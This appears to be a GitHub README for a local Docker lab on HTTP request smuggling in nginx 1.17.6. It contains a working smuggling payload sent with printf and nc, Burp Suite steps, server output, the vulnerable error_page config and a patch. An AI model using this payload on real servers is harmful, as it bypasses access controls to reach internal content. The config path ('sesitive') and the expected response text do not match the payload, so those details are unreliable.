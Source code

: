 #	HTTP REQUEST SMUGGLING 
The term HTTP request smuggling (HRS) refers to techniques that interfere with the way in which a website processes sequences of HTTP requests. 

Request smuggling vulnerabilities are considered critical because they allow threat actors to bypass security controls. The actor then gain unauthorized access to sensitive information and directly compromise other users

**Here will tro to get unauthorized access to internal server with the nginx vulnerable configaration** 

#	HTTP REQUEST SMUGGLING ON NGINX 

##	AFFECTED VERSION

Nginx 1.17.6

##	Usage

DEMONSTARTION PURPOSE.

###	HOW TO CONFIGURE 

```bash
$ git clone https://github.com/403accessdenied/HTTP-REQUEST-SMUGGLING
$ cd HTTP-REQUEST-SMUGGLING
$ docker-compose up -d
```


The nginx server will on the port 9095.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



##	Reproduce

### open linux terminal and paste the below command

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /sensitive/index.html HTTP/1.1\r\n'\
'Host: attackerhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9095
```

 ###  you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

successfully accessed my secret!
```
## Reproduce using **Burpsuite**

1. Open bursuite and  open firefox browser 
2. Open the url **127.0.0.1:9095** in the browser 
3. Intercept the request and send it to the repeater 
4. Now replace the intercepted request with the following request
 
```bash 
GET / HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 56

GET /sensitive/index.html HTTP/1.1
Host: attackerhost


```

![burp-request](https://user-images.githubusercontent.com/102154743/159486728-f7605d05-6724-4500-a091-fbe670f90402.png)

5. When you send the request we will get below response


![burp-response](https://user-images.githubusercontent.com/102154743/159486730-227653af-d594-450f-87a3-c6c0cda04c61.png)

6.Repeat the process untill we will get **Two response from server** as below


![burp-desync](https://user-images.githubusercontent.com/102154743/159486724-71df79ac-94ca-4ec8-a011-2e3967092bac.png)

# Patch
```
NGINX supports the ability to have the error_page handler change the resulting error page and error code
into a 302 redirect, as such:
error_page 401 https://example.org/;
Other forms of the error_page handler are NOT vulnerable:
error_page 404 /404.html;
error_page 404 @404;
```
### vulnerable configaration in *default.conf*
```bash
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```

### Patch for above configaration 
```
server {
 listen 80;
 server_name localhost;
 error_page 401 @401;
 location / {
 return 401;
 }
 location @401 {
 return 302 http://example.org;
 }
}

server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```
#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
